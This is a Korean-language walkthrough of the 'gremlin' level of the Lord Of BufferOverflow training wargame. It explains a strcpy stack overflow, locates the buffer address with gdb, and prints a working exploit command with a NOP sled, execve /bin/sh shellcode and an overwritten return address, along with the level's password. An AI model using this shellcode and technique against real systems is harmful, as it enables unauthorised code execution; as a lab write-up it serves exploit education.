

# [LOB] gremlin Write-up

LOB를 풀기 전에 서버 구축을 해야 한다.

[Lord Of BufferOverflow 설치](http://www.hackerschool.org/HS_Boards/zboard.php?id=HS_Notice&page=1&sn1=&divpage=1&sn=off&ss=on&sc=on&select_arrange=headnum&desc=asc&no=1170881885)

vmware 이미지 형태인 파일을 설치하여 서버를 가동하면 된다.


```
login : gate
Password : gate
```
로그인하면 gremlin과 gremlin.c 파일이 있는데 gremlin.c 파일의 내용은 다음과 같다.


simple BOF 문제라고 한다.  
우선 전달받는 인자의 개수가 2개 미만이면 프로그램이 종료된다.  
그리고 256 바이트의 배열에 strcpy() 함수를 이용해 argv[1]의 값을 복사한다.  
*argv[0]은 프로그램 이름이며, argv[1]은 실행할 때 전달하는 값 첫 번째이다.*  
strcpy() 함수는 NULL 문자를 만나기 전까지의 문자열을 복사한다. 그래서 Buffer Overflow를 발생시킬 수 있다. 일단 buffer 배열의 시작 주소를 알아내기 위해 gdb로 분석했다.  
gremlin 파일의 권한이 gremlin 이므로 gdb로 분석이 안된다. 따라서 이름 길이가 7자인 파일 이름으로 복사해준다.
``` bash
[gate@localhost gate]$ cp gremlin aaaaaaa
```
이름 길이를 같게 해주는 이유는 파일의 이름이 argv[0]이라 gdb에서 주소가 변경될 수 있기 때문이다.
``` bash  
[gate@localhost gate]$ gdb aaaaaaa
```
위의 명령어를 통해 gdb를 실행시킨다.



`disas main` 명령어는 main 함수를 디스어셈블한 코드를 보여주는 것이다.

  

b *main+59는 strcpy 함수가 실행된 후 브레이크 포인트를 거는 것이다.  
strcpy 함수가 실행된 후 브레이크 포인트를 건 이유는 인자로 256 글자의 값을 준 후 buffer 배열의 시작 주소를 알아내기 위해서이다. 이 방법 이외에도 main+53(strcpy 함수 호출 전)에 브레이크 포인트를 걸어 eax 레지스터에 있는 값을 통해 buffer 배열의 시작 주소를 알아낼 수 있다.


0x90의 값이 시작하는 부분은 **0xbffff918** 이다. buffer의 시작 주소를 알아냈으니 BOF 공격을 시도할 수 있다.


```
./gremlin `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x90"*215+"\x18\xf9\xff\xbf"'`
```

분석은 aaaaaaa 파일로 했지만 실행할 때는 gremlin으로 해야 한다. 앞에 nop으로 20바이트 채우고, 25바이트의 쉘 코드를 입력해줬다. 그리고 뒷부분을 nop으로 채우고, buffer 배열의 시작 주소를 넣어주었다.  
즉, 256 바이트의 배열을 채우고, 4바이트의 SFP를 채운 후 RET 주소를 buffer 시작 주소로 넣어주어 쉘코드가 실행되도록 해주었다. 
```
NOP(20 byte) + SHELL CODE(25 byte) + NOP(215 byte) + buffer 시작 주소(4 byte)
```

`my-pass`로 알아낸 비밀번호는 **hello bof world** 이다.


